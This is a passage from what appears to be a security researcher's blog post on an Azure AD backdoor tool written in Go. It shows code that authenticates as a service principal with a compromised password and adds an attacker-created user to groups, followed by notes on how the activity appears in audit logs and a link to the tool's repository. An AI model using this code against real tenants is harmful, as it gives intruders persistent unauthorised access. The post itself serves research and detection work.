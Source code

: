 ```go
    fmt.Println(GrpObjMap)
    fmt.Println("[*] Successfully Enumerated Groups")

    
    fmt.Println("[*] Reconnecting to Azure Management Resource")
    AzureManagementAuthStruct := authAsSPN("https://graph.microsoft.com",ExchangeAppIdGlobal,pwndpass,TenantId)

    fmt.Println("[*] Unfortunately we dont have permissions to check the assigned group roles")
    for x,y := range GrpObjMap {
        fmt.Printf("Add user to this group? %s y/n or q to quit\n",x)
        var userchoice2 string    
        fmt.Scanln(&userchoice2)
        if userchoice2 == "y"{
            fmt.Printf("Attempting To User To Following Group %s:::%s\n",x,y)
            AddUserToGrp(AzureManagementAuthStruct.AccessToken,TenantId,NewUserObjId,y)
        }else if userchoice2 == "q"{
            break
        } else {
            continue
        }
    }
```


## Well now what
The powershell shows up in event viewer.
![](/event.png)

Also heres what it looks like in the azure AD Audit logs

![](/azaudit.png)

You can see the Sync account updating the service principals and then those applications creating a user and adding to groups respectively.

## Final Thoughts
During the research for the api i used this app even though i knew it was phishy
https://graphexplorer.azurewebsites.net/
And i got my azure test environment hacked...But it was really cool to see some tactics performed by a real adversary.
He invited himself as a guest and created an azure web app proxy to get access to my on prem test env remotely. May look into this in the future. So if anyone wants to set up a honeypot azure tenant that link is the way to do it as its actively being used to target people.

## More Links
* https://www.jetbrains.com/decompiler/
* https://www.telerik.com/fiddler
* https://www.synacktiv.com/posts/pentest/azure-ad-introduction-for-red-teamers.html
* https://github.com/dirkjanm/ROADtools

## Why Golang?
Idk just trying it out. Probably will go back to learning C though.

## Repo Link
https://github.com/latortuga71/Learning_GO/tree/master/AzureADBackDoor
## POC Video
{{< youtube GW6CC6ZUVfk >}}